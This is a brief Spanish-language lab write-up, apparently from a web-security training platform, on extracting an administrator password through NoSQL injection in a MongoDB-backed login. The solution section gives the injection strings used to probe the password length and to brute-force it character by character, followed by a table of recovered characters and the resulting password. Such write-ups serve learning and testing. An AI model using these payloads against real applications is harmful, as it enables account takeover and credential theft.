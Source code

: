 # 02 Lab: Exploiting NoSQL injection to extract data

## Objetivo

> The login functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection using MongoDB operators.
> 
> 
> To solve the lab, log into the application as the `administrator` user.
> 
> You can log in to your own account using the following credentials: `wiener:peter`.
> 

## Solución

Cambiamos el parametro de usuario a  `administrator' && this.password.length < 30 || 'a'=='b`, 

administrator' && this.password[$0$]=='$a$

![image.png](02%20Lab%20Exploiting%20NoSQL%20injection%20to%20extract%20data%2017efab5460ec806194e2ca57d073f3ee/image.png)

La contraseña es de 8 caracteres

![image.png](02%20Lab%20Exploiting%20NoSQL%20injection%20to%20extract%20data%2017efab5460ec806194e2ca57d073f3ee/image%201.png)

| 5 | c |
| --- | --- |
| 2 | q |
| 3 | q |
| 7 | d |
| 1 | f |
| 6 | z |
| 0 | n |
| 4 | v |

User: administrator  Password:nfqqvczd

![image.png](02%20Lab%20Exploiting%20NoSQL%20injection%20to%20extract%20data%2017efab5460ec806194e2ca57d073f3ee/image%202.png)